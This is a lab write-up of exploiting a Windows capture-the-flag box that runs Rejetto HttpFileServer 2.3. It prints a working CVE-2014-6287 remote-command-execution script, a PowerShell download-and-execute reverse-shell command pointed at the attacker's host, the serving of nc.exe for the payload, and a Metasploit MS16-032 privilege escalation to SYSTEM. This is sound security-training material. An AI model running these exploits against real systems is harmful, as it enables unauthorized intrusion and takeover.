 #enumeration 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 10:04 EDT
Nmap scan report for 10.10.10.8
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   105.44 ms 10.10.14.1
2   106.25 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.57 seconds
```
#enumeration 
searching searchsploit for HttpFileServer I got a exploit with the same version and reading the script
```
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```
so it was cve 2014 -6287 an rce for 2.3 httpfileserver and i ran the exploit 
But there was some problem in the script so I searched google
and got this https://www.exploit-db.com/raw/39161
now the script said 
```
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```
so we transferrd nc.exe to our directory in which script was kept and ran a python server
```
┌──(root💀kali)-[/home/archi/Documents/OSCP]
└─# locate nc.exe  
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
                                                              
┌──(root💀kali)-[/home/archi/Documents/OSCP]
└─# mv /usr/share/windows-resources/binaries/nc.exe .
                                                              
┌──(root💀kali)-[/home/archi/Documents/OSCP]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
then we ran the script 
```
python httpfileserverrce.py 10.10.10.8 80

```
and we have our reverse shell
after that I used the linux exploit suggestor of msfconsole just as i did in devel box and got the exploit ```exploit/windows/local/ms16_032_secondary_logon_handle_privesc```
and ran it through msfconsole 
```
Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```
In session 1 was running the exploit for httpfileserver and i ran the exploit and got the root shell
```
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
